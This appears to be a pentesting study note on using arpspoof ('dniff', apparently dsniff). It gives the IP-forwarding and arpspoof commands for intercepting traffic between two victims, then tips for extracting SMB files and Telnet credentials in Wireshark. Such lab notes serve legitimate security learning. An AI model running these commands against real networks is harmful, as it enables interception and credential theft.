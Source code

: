 ```yaml
---
title: arpspoof from dniff
author: amandaguglieri
draft: false
TableOfContents: true
tags: 
  - windows 
---
```


# arpspoof from dniff

dniff is a collection of tools for network auditing and penetration testing. It includes arpspoof, a utility designed to intercept traffic on a switched LAN.

Before running, enable Linux Kernel IP Forwarding (this transforms Linux box into a router).

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

And then, run arpspoof:

```
arpspoof -i <interface> -t <target IP> -r <host IP>
# interface: NIC you want to use (like eth0 for your local LAN, or tap0 for Hera Lab)
# target IP: one of the victim address
# host IP: the other victim address.
```

After that, run Wireshark to intercept the traffic.

- **SMB traffic**. When capturing smb traffic in wireshark, go to: FILE>Export Objects>SMB/SMB2. There you have all files uploaded or downloaded from a server during a SMB capture session.
- **Telnet traffic**: Telnet sends characters one by one, that's why you don't see the username/password straight away. But with "Follow TCP Stream", wireshark will put all data together and you will be able to see the username/password. Just rightclick on a packet of the telnet session and choose: "Follow TCP Stream".

